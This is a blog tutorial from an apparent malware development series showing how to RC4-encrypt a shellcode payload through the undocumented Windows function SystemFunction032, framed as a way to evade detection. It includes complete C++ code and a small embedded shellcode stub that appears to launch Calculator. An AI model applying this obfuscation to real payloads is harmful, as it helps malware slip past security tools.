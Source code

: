```yaml
---
title: "Malware Development: Crafting Digital Chaos 0x6: Undocumented structures"
classes: wide
header:
  teaser:  /assets/images/hsk.jpg
ribbon: black
description: "Article 7 of Malware Development series"
categories:
  - Malware Development
tags:
  - Malware Development
  - RC4
  - Encryption
  - Undocumented structures
  - WinAPI
  - C++
toc: true
---
```


# Encryption and obfuscation

A very important part of each Malware Development process is the encryption and obfuscation, The more you have a stealthy encryption the  more you aren't likely to be detected, So learning encryption techniques is a very important part of learning Malware Development.

Today we are going to combine encryption and obfuscation together, combining RC4 encryption technique and using Microsoft's undocumented structures to achieve this encryption.

Let's first talk a bit about Microsoft's undocumented structures.

# Undocumented structures

Microsoft's undocumented structures refer to data structures, functions, or behaviors within Windows operating systems that are not officially undocumented or supported by Microsoft. These undocumented features are not intended for public use and are typically not disclosed in official documentation or APIs. However, they may be discovered by reverse engineers or through experimentation.

Malware authors often use undocumented structures in Windows to hide their malicious activities and evade detection.

For example, the TDL (TDL-4 or **Alureon**) rootkit, which emerged around 2008, used various techniques to hide its presence on infected systems. It employed undocumented structures within the Windows kernel to intercept and modify system calls related to file I/O, process management, and network communications. By doing so, TDL was able to conceal its files and processes from both users and security software, making it extremely difficult to detect and remove.

Another example is the **Stuxnet** worm, which was discovered in 2010 and targeted industrial control systems, particularly those used in nuclear facilities. **Stuxnet** utilized multiple zero-day vulnerabilities and sophisticated techniques, including the exploitation of undocumented Windows structures, to infect systems and manipulate programmable logic controllers (PLCs) without detection. It employed rootkit-like functionality to hide its presence and evade detection by antivirus software.

**RC4 Encryption**

There is an undocumented WINAPI call `SystemFunction032`that actually is an implementation of RC4, we are going to use that call to encrypt (or decrypt) a payload that we designed.

The parameters of this function are from type `USTRING` , So before everything let's define our structure that we are going o inherit from:

```cpp
typedef struct USTRING{
  DWORD Length;
  DWORD MaxLength;
  PVOID pBuffer;
}
```
Next we are going to write the function prototype:

```cpp
typedef NTSTATUS(WINAPI* fnSystemFunction032)(

  struct USTRING* Data,
  struct USTRING* Key

  ); 
```
-   `typedef`: This keyword is used to define a new type alias. In this case, it's being used to create a new type alias for a function pointer.
-   `NTSTATUS`: This is a Windows-specific data type representing a status code, typically used to indicate the success or failure of a function call.
-   `WINAPI`: This is a macro defined in Windows headers, typically used to specify the calling convention for functions. It ensures that functions are appropriately called based on the platform's calling conventions (e.g., `stdcall`).

Again, all the information about this function and its parameters, return value and so on, are obtained through REVERSE ENGINEERING, and Microsoft hasn't until now a clear documentation about it.

```cpp
  NTSTATUS STATUS = NULL;
  // Data and Key
  USTRING Data;
  USTRING Key;

  // setting the values

  Data.Length = DataSize;
  Data.MaxLength = DataSize;
  Data.pBuffer = pData;

  Key.Length = Rc4KeySize,
  Key.MaxLength = Rc4KeySize;
  Key.pBuffer = pRc4Key;
```

Now we are defining and setting the initial values of the two structures (Data and Key), (pData, pRc4Key, DataSize, Rc4KeySize) are passed as parameters to the wrapper function.

Then after we have prepared the parameters that'll be passed to `Systemfunction032` we now need to call it to encrypt the Data variable with the Key value.

```cpp
fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)(GetProcAddress(LoadLibraryA("Advapi32.dll"), "SystemFunction032"));
```

As the function is defined inside **Advapi32.dll** we have used `GetProcAddress()` and  `LoadLibraryA()` to resolve it.

Then last thing is to initiate the encryption:

```cpp
if ((STATUS = SystemFunction032(&Data, &Key)) != 0x0) {
    
    printf("SystemFunction032 failed with error 0x%0.8x", GetLastError());

    return FALSE;

  }
```

# Execution

Before we execute let's use Cyberchef and encrypt the payload with the same key we will be using in our code, So we can later compare it:

![P1](/assets/images/malware-development/7-0.png)

Then we break after the call and observe the shellcode address and compare the bytes we got:
![P2](/assets/images/malware-development/7-1.png)

The full code:

```cpp
#include <iostream>
#include <windows.h>

typedef NTSTATUS(WINAPI* fnSystemFunction032)(

  struct USTRING* Data,
  struct USTRING* Key

  );

typedef struct USTRING{
  DWORD Length;
  DWORD MaxLength;
  PVOID pBuffer;
} pData, pKey;


BOOL Rc4Enc(IN PBYTE pRc4Key, IN PBYTE pData, IN DWORD Rc4KeySize, IN DWORD DataSize) {


  NTSTATUS STATUS = NULL;
  // Data and Key
  USTRING Data;
  USTRING Key;

  // setting the values

  Data.Length = DataSize;
  Data.MaxLength = DataSize;
  Data.pBuffer = pData;

  Key.Length = Rc4KeySize,
  Key.MaxLength = Rc4KeySize;
  Key.pBuffer = pRc4Key;

  fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)(GetProcAddress(LoadLibraryA("Advapi32.dll"), "SystemFunction032"));

  if ((STATUS = SystemFunction032(&Data, &Key)) != 0x0) {
    
    printf("SystemFunction032 failed with error 0x%0.8x", GetLastError());

    return FALSE;

  }
  printf("EncryptionDone\n");
  return TRUE;
}

int main()
{

  unsigned char shellcode[] = {
  0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C, 0x63, 0x54, 0x59, 0x48, 0x29, 0xD4, 0x65, 0x48, 0x8B,
  0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76, 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B,
  0x7E, 0x30, 0x03, 0x57, 0x3C, 0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE,
  0x8B, 0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C, 0x07, 0x57,
  0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48,
  0x01, 0xF7, 0x99, 0xFF, 0xD7 };

  
  BYTE byteArray[] = { 0x62, 0x61, 0x64, 0x72, 0x37, 0x6c, 0x61, 0x33 };
  PBYTE key = byteArray;
  

  if(Rc4Enc(key, shellcode, sizeof key, sizeof shellcode) ==  TRUE){
    
    printf("Encrypted successfully and here is the address to check: %p",&shellcode);
    getchar();

  }
  return 1;
}
```

- Note: SystemFunction033 does the same RC4 encryption, I highly encourage you to explore it!.

Thanks for reading.
